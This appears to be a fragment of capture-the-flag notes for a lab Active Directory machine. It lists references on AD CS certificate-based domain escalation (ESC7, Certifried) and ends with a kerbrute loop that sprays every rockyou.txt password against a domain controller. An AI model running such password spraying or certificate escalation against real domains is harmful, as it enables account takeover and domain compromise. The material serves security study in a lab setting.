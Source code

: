
## Resources

- [Certified Pre-Owned. Active Directory Certificate Services… | by Will Schroeder | Posts By SpecterOps Team Members](https://posts.specterops.io/certified-pre-owned-d95910965cd2)
- [Certified_Pre-Owned.pdf (specterops.io)](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)
- [AD CS Domain Escalation - HackTricks](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation)
- [Certifried: Active Directory Domain Privilege Escalation (CVE-2022–26923) | by Oliver Lyak | IFCR](https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4)
- [GitHub - arth0sz/Practice-AD-CS-Domain-Escalation: Introductory guide on the configuration and subsequent exploitation of Active Directory Certificate Services with Certipy. Based on the white paper Certified Pre-Owned.](https://github.com/arth0sz/Practice-AD-CS-Domain-Escalation#vulnerable-certificate-authority-access-control---esc7)



we can also do this  with Certify [AD CS: weaponizing the ESC7 attack | BlackArrow - Tarlogic](https://www.tarlogic.com/blog/ad-cs-esc7-attack/)

read about the wordlist in
[Active Directory Enumeration & Attacks - HTB Academy (CPTS) (gitbook.io)](https://nukercharlie.gitbook.io/htb-academy-cpts/internal-network-and-ad/active-directory-enumeration-and-attacks)


```
for pass in $(cat /usr/share/wordlists/rockyou.txt); do ./kerbrute_linux_amd64 passwordspray --dc 10.10.11.236 -d manager.htb users.txt $pass
```